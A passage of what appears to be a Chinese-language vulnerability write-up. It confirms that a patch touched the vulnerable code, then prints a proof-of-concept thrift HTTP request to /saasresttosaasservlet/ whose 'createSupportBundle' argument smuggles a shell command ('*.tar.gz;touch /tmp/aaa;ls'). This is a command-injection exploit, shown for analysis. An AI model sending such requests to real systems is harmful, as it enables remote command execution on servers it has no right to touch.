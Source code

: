 然后发现补丁中确实对这个进行了处理

[![](assets/1701612478-99ff62ba8497272ac63c203c66d9bc94.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230614102853-34a067c8-0a5b-1.png)

说明我们找对了地方。

接下来就是构造 thrift 的协议请求包了，这个地方不说了，一边调试一边构造就可以了。最后构造出来 exp 如图

[![](assets/1701612478-b4c7fa27112cb7ac14d4ddf9f42423d1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230614102903-3ab35c9c-0a5b-1.png)

```plain
POST /saasresttosaasservlet/ HTTP/2
Host: 192.168.1.155
Content-Type: application/x-thrift
Accept: application/x-thrift
User-Agent: Java/THttpClient/HC
Content-Length: 93
Accept-Encoding: gzip,deflate

[1,"createSupportBundle",1,1,{"1":{"str":"10000"},"2":{"str":"*.tar.gz;touch /tmp/aaa;ls "}}]
```
